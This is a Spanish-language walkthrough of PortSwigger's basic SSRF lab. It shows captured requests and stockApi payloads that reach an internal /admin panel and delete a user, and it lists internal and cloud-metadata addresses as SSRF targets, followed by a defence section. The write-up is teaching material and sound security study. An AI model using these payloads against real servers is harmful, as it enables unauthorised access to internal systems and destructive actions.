




# Lab 1 - SSRF básico contra el servidor local

**Categoría:** Server-Side Request Forgery (SSRF)  
**Plataforma:** PortSwigger Web Security Academy  
**URL del laboratorio:** `https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost`  
**Nombre del laboratorio:** Basic SSRF against the local server  
**Objetivo:** usar la funcionalidad de comprobación de stock para acceder a `http://localhost/admin` desde el servidor vulnerable y eliminar al usuario `carlos`.

> Nota importante: aunque en algunos apuntes se puede confundir con laboratorios de bypass mediante redirección abierta, este laboratorio concreto es el SSRF básico contra `localhost`. Aquí no hace falta una open redirect. La clave es que el parámetro `stockApi` acepta una URL completa y el backend la solicita directamente.

---

## 1. Capturas del laboratorio

### Imagen 1 - Página principal del laboratorio



La aplicación se presenta como una tienda llamada **We Like To Shop**. Se ven varios productos y cada uno tiene un botón **View details**. La vulnerabilidad no está en la página principal como tal, sino en la funcionalidad que aparece dentro de la página de detalle de un producto: **Check stock**.

### Imagen 2 - Panel de administración accedido mediante SSRF



Aquí se ve algo fundamental: usando la funcionalidad vulnerable de stock, el servidor nos ha devuelto el contenido del panel interno `/admin`. En ese panel aparecen los usuarios `wiener` y `carlos`, junto con enlaces `Delete`.

### Imagen 3 - Laboratorio resuelto



Después de realizar la petición SSRF contra el endpoint interno de borrado de usuario, PortSwigger marca el laboratorio como resuelto.

### Imagen 4 - Confirmación de que `carlos` ya no aparece



Al volver a consultar el panel de administración mediante SSRF, `carlos` ya no aparece. Solo queda `wiener`, y además se muestra el mensaje **User deleted successfully!**.

---

## 2. Qué es SSRF

SSRF significa **Server-Side Request Forgery**, es decir, falsificación de peticiones del lado servidor.

La idea esencial es esta:

> En SSRF no atacas directamente un recurso interno. Haces que el servidor vulnerable lo solicite por ti.

En una aplicación normal, tu navegador habla con el servidor público. En SSRF, el flujo cambia:

```text
Tu navegador
    ↓
Servidor vulnerable
    ↓
Recurso interno / localhost / servicio privado
```

El atacante controla algún parámetro que el backend usa para hacer una petición HTTP. Si ese parámetro no está validado correctamente, el atacante puede cambiar el destino de esa petición.

Por ejemplo, una aplicación puede tener una funcionalidad legítima como:

```text
Comprobar stock de un producto
```

Internamente, el backend puede hacer una petición a un servicio de stock:

```text
http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1
```

Si el usuario controla esa URL, puede sustituirla por otra:

```text
http://localhost/admin
```

Entonces el servidor vulnerable hará una petición a su propio `localhost`.

---

## 3. Por qué `localhost` es tan importante

`localhost` significa **la propia máquina desde la que se hace la petición**.

Esto es muy importante, porque `localhost` no significa lo mismo para ti que para el servidor.

Si tú, desde tu navegador, intentas acceder a:

```text
http://localhost/admin
```

estarías intentando acceder a tu propio equipo, no al servidor de PortSwigger.

Pero si haces que el backend vulnerable solicite:

```text
http://localhost/admin
```

entonces `localhost` apunta al propio servidor vulnerable.

Por eso SSRF es tan potente. Te permite aprovechar la posición interna del servidor.

Visualmente:

```text
Tú
 ↓
POST /product/stock
 ↓
Servidor vulnerable
 ↓
GET http://localhost/admin
 ↓
Panel interno del propio servidor
```

El panel `/admin` puede estar protegido para que solo sea accesible desde la propia máquina. Desde fuera puede estar bloqueado, pero desde `localhost` sí puede responder.

La clave mental es:

> SSRF te deja usar la confianza interna del servidor.

---

## 4. Objetivo del laboratorio

El enunciado del laboratorio dice que la funcionalidad de comprobación de stock obtiene datos desde un sistema interno.

Para resolverlo hay que:

1. Interceptar la petición de comprobación de stock.
2. Modificar la URL que consulta el backend.
3. Hacer que el backend acceda a:

```text
http://localhost/admin
```

4. Localizar el endpoint que elimina usuarios.
5. Hacer que el backend solicite:

```text
http://localhost/admin/delete?username=carlos
```

6. Confirmar que el usuario `carlos` ha sido eliminado.

---

## 5. Localización de la funcionalidad vulnerable

Entramos al laboratorio y vemos la tienda con productos.

El flujo práctico es:

1. Abrir el laboratorio.
2. Activar Burp Suite y FoxyProxy para interceptar tráfico.
3. Ir a cualquier producto con **View details**.
4. Pulsar **Check stock**.
5. Capturar la petición en Burp.
6. Mandarla a **Repeater**.

La funcionalidad vulnerable es **Check stock**, porque la aplicación permite al cliente indicar al backend qué URL debe consultar para obtener el stock.

---

## 6. Petición original capturada

Al pulsar **Check stock**, Burp captura una petición similar a esta:

```http
POST /product/stock HTTP/1.1
Host: 0a9b00ba0394633480b567dd006200a5.web-security-academy.net
Cookie: session=XxdOOrHJvaA3DjqvkhHmXWzjybQLJk8s
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9b00ba0394633480b567dd006200a5.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0a9b00ba0394633480b567dd006200a5.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: keep-alive

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

La parte crítica está en el cuerpo de la petición:

```text
stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

Ese valor está URL-encodeado.

Decodificado queda así:

```text
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1
```

Esto significa que tu navegador no está consultando directamente el sistema de stock. Tu navegador está enviando al servidor vulnerable una URL para que sea el servidor quien haga la consulta.

Conceptualmente, el backend hace algo parecido a:

```python
url = request.form["stockApi"]
response = requests.get(url)
return response.text
```

O en pseudocódigo JavaScript:

```javascript
const stockApi = request.body.stockApi;
const stockResponse = await fetch(stockApi);
return stockResponse.text();
```

El problema es que `stockApi` viene del cliente y el servidor confía en ese valor.

---

## 7. Análisis línea a línea de la petición

### Método y ruta

```http
POST /product/stock HTTP/1.1
```

El navegador está pidiendo al servidor que consulte el stock de un producto.

### Host

```http
Host: 0a9b00ba0394633480b567dd006200a5.web-security-academy.net
```

Es el dominio público del laboratorio.

### Cookie

```http
Cookie: session=XxdOOrHJvaA3DjqvkhHmXWzjybQLJk8s
```

Es tu sesión en el laboratorio.

### Referer

```http
Referer: https://.../product?productId=1
```

Indica que la petición viene desde la página de detalle del producto `productId=1`.

### Content-Type

```http
Content-Type: application/x-www-form-urlencoded
```

El cuerpo de la petición usa formato de formulario:

```text
clave=valor&otraClave=otroValor
```

### Parámetro vulnerable

```text
stockApi=...
```

Este es el parámetro controlado por el usuario que el servidor usa como destino de una petición HTTP. Esa es la raíz del SSRF.

---

## 8. Confirmación del SSRF accediendo a localhost

El primer payload útil es:

```text
http://localhost/admin
```

Como va dentro de un parámetro `application/x-www-form-urlencoded`, en Burp podemos seleccionarlo y usar `Ctrl+U` para URL-encodearlo.

El body quedaría así:

```text
stockApi=http%3a//localhost/admin
```

También sería válido codificarlo más estrictamente como:

```text
stockApi=http%3A%2F%2Flocalhost%2Fadmin
```

La idea es la misma: conseguir que el backend haga una petición a:

```text
http://localhost/admin
```

---

## 9. Respuesta al acceder a `/admin` mediante SSRF

Al enviar la petición modificada, recibimos una respuesta `200 OK` con HTML del panel de administración:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Set-Cookie: session=iVi7vNOr6tJemDWtJRkt7VYpKUtlvfbH; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 3174
```

Dentro del HTML aparece:

```html
<section>
    <h1>Users</h1>
    <div>
        <span>wiener - </span>
        <a href="/admin/delete?username=wiener">Delete</a>
    </div>
    <div>
        <span>carlos - </span>
        <a href="/admin/delete?username=carlos">Delete</a>
    </div>
</section>
```

Esto confirma varias cosas a la vez:

1. La petición a `localhost` ha funcionado.
2. El panel `/admin` existe.
3. Desde el contexto interno del servidor sí es accesible.
4. El panel contiene una acción administrativa para eliminar usuarios.
5. El endpoint para borrar a `carlos` es:

```text
/admin/delete?username=carlos
```

En Burp, al renderizar la respuesta, se ve el panel de administración con los usuarios `wiener` y `carlos`, como en la imagen 2.

---

## 10. Por qué esto confirma completamente el SSRF

La aplicación pública no debería permitirnos acceder al panel admin. Si intentáramos entrar directamente a `/admin` desde el navegador, probablemente recibiríamos un bloqueo.

Pero mediante SSRF ocurre esto:

```text
Tú
 ↓
POST /product/stock con stockApi=http://localhost/admin
 ↓
Servidor vulnerable
 ↓
GET http://localhost/admin
 ↓
El propio servidor obtiene el panel admin
 ↓
Te devuelve el HTML en la respuesta de /product/stock
```

El servidor vulnerable está actuando como un proxy interno.

Este es el patrón típico del SSRF básico:

```text
Parámetro controlado por usuario → petición HTTP desde backend → recurso interno
```

---

## 11. Diferencia entre acceder directamente y acceder por SSRF

### Acceso directo

Si intentas ir directamente a:

```text
https://LAB/admin
```

la aplicación puede responder con un error, porque tu petición viene desde Internet.

### Acceso mediante SSRF

Si haces que el backend solicite:

```text
http://localhost/admin
```

la petición se origina desde el propio servidor.

Para la aplicación, esa petición puede parecer local y confiable.

Por eso la protección basada en “solo permitir localhost” se rompe si otra funcionalidad permite hacer peticiones arbitrarias desde el servidor.

---

## 12. Endpoint de borrado descubierto

En el panel interno vemos el enlace:

```html
<a href="/admin/delete?username=carlos">Delete</a>
```

Como estamos accediendo al panel a través de `localhost`, el endpoint completo que necesitamos invocar mediante SSRF es:

```text
http://localhost/admin/delete?username=carlos
```

Aquí hay un detalle importante: el enlace del HTML es relativo:

```text
/admin/delete?username=carlos
```

Pero en `stockApi` necesitamos una URL absoluta, porque el backend espera una URL a la que conectarse. Por eso usamos:

```text
http://localhost/admin/delete?username=carlos
```

---

## 13. Petición final para eliminar a `carlos`

Modificamos de nuevo el parámetro `stockApi`:

```text
stockApi=http%3a//localhost/admin/delete%3fusername%3dcarlos
```

Decodificado:

```text
stockApi=http://localhost/admin/delete?username=carlos
```

La petición completa en Repeater queda conceptualmente así:

```http
POST /product/stock HTTP/1.1
Host: 0a9b00ba0394633480b567dd006200a5.web-security-academy.net
Cookie: session=XxdOOrHJvaA3DjqvkhHmXWzjybQLJk8s
Content-Type: application/x-www-form-urlencoded

stockApi=http%3a//localhost/admin/delete%3fusername%3dcarlos
```

Cuando enviamos esta petición, el backend hace:

```http
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
```

Desde el punto de vista del servidor, esa petición viene de sí mismo.

---

## 14. Respuesta del endpoint de borrado

La respuesta recibida es:

```http
HTTP/2 302 Found
Location: /admin
Set-Cookie: session=70R5tUFKCsjRAYZsLNquwN4hTnBEIk1F; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Esta respuesta es exactamente lo que esperaríamos después de una acción administrativa.

Un `302 Found` significa redirección.

El servidor está diciendo:

```text
La acción se ha realizado. Ahora vuelve a /admin.
```

El flujo normal sería:

```text
GET /admin/delete?username=carlos
    ↓
Servidor elimina a carlos
    ↓
302 Found
Location: /admin
```

El `302` no significa que haya fallado. En aplicaciones web, después de acciones como borrar, crear o actualizar datos, es muy común redirigir a otra página.

---

## 15. Por qué el 302 confirma que la acción se ejecutó

Si el endpoint no existiera, esperaríamos un `404`.

Si no tuviéramos permisos, podríamos esperar un `401` o `403`.

Pero recibimos:

```http
302 Found
Location: /admin
```

Eso indica que el endpoint procesó la acción y redirigió al panel.

En este lab, después de esa petición, la plataforma marca el laboratorio como resuelto.

---

## 16. Verificación posterior

Para confirmar el resultado, repetimos la petición SSRF a:

```text
http://localhost/admin
```

El panel ahora muestra el mensaje:

```text
User deleted successfully!
```

Y la lista de usuarios ya no incluye a `carlos`.

Solo aparece:

```text
wiener - Delete
```

Esto coincide con la imagen 4.

---

## 17. Flujo completo del ataque

El ataque completo se puede resumir así:

```text
1. Localizamos la funcionalidad Check stock.
2. Capturamos POST /product/stock.
3. Vemos que el body contiene stockApi=URL.
4. Confirmamos que el backend solicita esa URL.
5. Cambiamos stockApi a http://localhost/admin.
6. El servidor devuelve el panel admin interno.
7. Identificamos /admin/delete?username=carlos.
8. Cambiamos stockApi a http://localhost/admin/delete?username=carlos.
9. El servidor ejecuta la acción interna.
10. Carlos queda eliminado.
11. El laboratorio se marca como resuelto.
```

---

## 18. Source y sink en este laboratorio

Aunque en XSS se habla mucho de source y sink, en SSRF también podemos pensar en términos parecidos.

### Source

El input controlado por el usuario:

```text
stockApi
```

### Sink

La función del backend que realiza la petición HTTP:

```text
requests.get(stockApi)
fetch(stockApi)
HTTP client interno
```

### Impacto

El atacante controla el destino de la petición realizada por el servidor.

---

## 19. Por qué este bug no es XSS ni CSRF

Este laboratorio es SSRF, no XSS.

No estamos ejecutando JavaScript en el navegador.

Tampoco estamos haciendo que el navegador de una víctima envíe una petición autenticada como en CSRF.

Aquí el actor que realiza la petición maliciosa es el **servidor vulnerable**.

Comparación rápida:

| Tipo | Quién ejecuta la acción | Qué se controla |
|---|---|---|
| XSS | Navegador de la víctima | JavaScript/HTML ejecutado en cliente |
| CSRF | Navegador de la víctima | Peticiones autenticadas desde cliente |
| SSRF | Servidor vulnerable | Peticiones HTTP realizadas por backend |

La diferencia clave:

> En SSRF, el navegador solo dispara la funcionalidad. La petición peligrosa real la hace el servidor.

---

## 20. Por qué SSRF puede ser tan grave

Este laboratorio es básico, pero la técnica puede tener mucho impacto en entornos reales.

Con SSRF se puede intentar acceder a:

```text
http://localhost/
http://127.0.0.1/
http://0.0.0.0/
http://[::1]/
http://internal-service/
http://admin.internal/
http://metadata.google.internal/
http://169.254.169.254/
```

Posibles objetivos reales:

- Paneles internos.
- Servicios de administración.
- APIs internas.
- Redis, Elasticsearch, Consul, Jenkins, Docker API.
- Metadatos cloud de AWS, GCP o Azure.
- Endpoints que solo escuchan en localhost.
- Sistemas no expuestos a Internet.

La gravedad depende de qué pueda alcanzar el servidor desde su red interna.

---

## 21. Por qué `stockApi` es una mala idea si no se valida

Permitir que el cliente envíe una URL completa al backend suele ser peligroso.

Mala práctica:

```text
stockApi=http://cualquier-url
```

Mejor diseño:

```text
productId=1&storeId=1
```

Y que el servidor construya internamente la URL segura:

```python
stock_url = f"http://stock.internal/check?productId={product_id}&storeId={store_id}"
```

El usuario no debería poder elegir el host, el protocolo ni la ruta completa.

---

## 22. Defensa correcta contra SSRF

Para proteger una funcionalidad como esta, no basta con bloquear la palabra `localhost`.

Hay que aplicar varias defensas.

### 22.1 No aceptar URLs arbitrarias del usuario

Lo más seguro es no permitir que el usuario controle una URL completa.

En vez de:

```text
stockApi=http://stock.weliketoshop.net:8080/...
```

usar:

```text
productId=1
storeId=1
```

Y construir la URL en backend.

### 22.2 Allowlist estricta

Si se necesita aceptar URLs, validar contra una allowlist real:

```text
stock.weliketoshop.net
```

No aceptar hosts arbitrarios.

### 22.3 Bloquear rangos internos

El backend no debería poder conectar a:

```text
127.0.0.0/8
10.0.0.0/8
172.16.0.0/12
192.168.0.0/16
169.254.0.0/16
::1
fc00::/7
```

### 22.4 Resolver DNS y validar IP final

No basta con validar el texto del host. Hay que resolver el DNS y comprobar que la IP final no sea interna.

Esto evita bypasses tipo:

```text
http://evil.com
```

que resuelve a:

```text
127.0.0.1
```

### 22.5 Evitar seguir redirecciones peligrosas

Aunque este lab no requiere redirección abierta, muchos SSRF reales usan redirecciones para saltarse filtros.

Si el backend permite seguir redirecciones, una URL aparentemente segura puede redirigir a:

```text
http://localhost/admin
```

### 22.6 Segmentar la red

Aunque exista SSRF, el servidor web no debería poder acceder libremente a servicios administrativos internos.

### 22.7 Autenticación real en paneles internos

No confiar solo en “esto solo es accesible desde localhost”.

---

## 23. Errores conceptuales comunes

### Error 1: pensar que `localhost` es tu máquina

En SSRF, `localhost` es la máquina que hace la petición. Aquí la petición la hace el servidor vulnerable.

### Error 2: pensar que el navegador consulta `stockApi`

El navegador manda `stockApi` al backend. El backend consulta esa URL.

### Error 3: pensar que el `302` es un fallo

En este caso, el `302` indica que la acción se ejecutó y la aplicación redirige a `/admin`.

### Error 4: pensar que SSRF solo permite leer

SSRF también puede ejecutar acciones si el recurso interno tiene endpoints que modifican estado, como:

```text
/admin/delete?username=carlos
```

### Error 5: pensar que basta con bloquear `localhost`

Hay muchas formas de referirse a recursos locales o internos. La defensa correcta es más profunda que un simple filtro de strings.

---

## 24. Payloads usados

### Acceder al panel admin interno

Valor sin codificar:

```text
stockApi=http://localhost/admin
```

Valor codificado:

```text
stockApi=http%3a//localhost/admin
```

### Eliminar a `carlos`

Valor sin codificar:

```text
stockApi=http://localhost/admin/delete?username=carlos
```

Valor codificado:

```text
stockApi=http%3a//localhost/admin/delete%3fusername%3dcarlos
```

---

## 25. Por qué el endpoint de borrado funciona por GET

El enlace del panel es:

```html
<a href="/admin/delete?username=carlos">Delete</a>
```

Eso significa que la acción de borrar usuario se realiza mediante una petición GET.

En aplicaciones reales, esto es una mala práctica. Las acciones destructivas deberían usar métodos como POST y protecciones adicionales.

Pero incluso si fuera POST, un SSRF avanzado podría seguir siendo peligroso si el backend permite controlar método, cabeceras o cuerpo.

En este lab, al ser GET, basta con hacer que el backend solicite la URL.

---

## 26. Lectura de la respuesta del panel

Cuando pedimos:

```text
http://localhost/admin
```

el HTML contiene:

```html
<a href="/admin/delete?username=wiener">Delete</a>
<a href="/admin/delete?username=carlos">Delete</a>
```

Esto nos da directamente el endpoint necesario.

Este paso es importante porque en un SSRF real primero se suele hacer reconocimiento interno:

```text
http://localhost/
http://localhost/admin
http://localhost:8080/
http://127.0.0.1:5000/
```

Y luego se explotan endpoints descubiertos.

---

## 27. Explicación ultra resumida para memorizar

Este lab se resuelve porque:

```text
stockApi es controlable.
El backend hace una petición a stockApi.
Cambiamos stockApi a localhost/admin.
El servidor accede a su panel interno.
Encontramos el enlace de borrado.
Cambiamos stockApi a localhost/admin/delete?username=carlos.
El servidor borra a carlos.
```

Frase clave:

> SSRF convierte al servidor vulnerable en un proxy hacia su red interna.

---

## 28. Checklist de explotación

- [x] Identificar funcionalidad que hace peticiones server-side.
- [x] Capturar petición con Burp.
- [x] Localizar parámetro que contiene URL completa.
- [x] Mandar petición a Repeater.
- [x] Probar `http://localhost/admin`.
- [x] Confirmar `200 OK` y HTML del panel.
- [x] Identificar endpoint `/admin/delete?username=carlos`.
- [x] Enviar SSRF a ese endpoint.
- [x] Recibir `302 Found`.
- [x] Confirmar que `carlos` desaparece.
- [x] Laboratorio resuelto.

---

## 29. Conclusión

Este laboratorio enseña el patrón básico de SSRF de forma muy limpia:

1. El usuario controla una URL.
2. El servidor solicita esa URL.
3. El atacante cambia la URL hacia `localhost`.
4. El servidor accede a recursos internos.
5. El atacante usa la respuesta para descubrir acciones internas.
6. El atacante ejecuta una acción administrativa mediante el propio servidor.

La lección importante no es solo “poner `localhost/admin` en `stockApi`”. La lección real es entender el cambio de perspectiva:

```text
No estás accediendo tú a /admin.
Estás haciendo que el servidor acceda a /admin por ti.
```

Eso es SSRF.

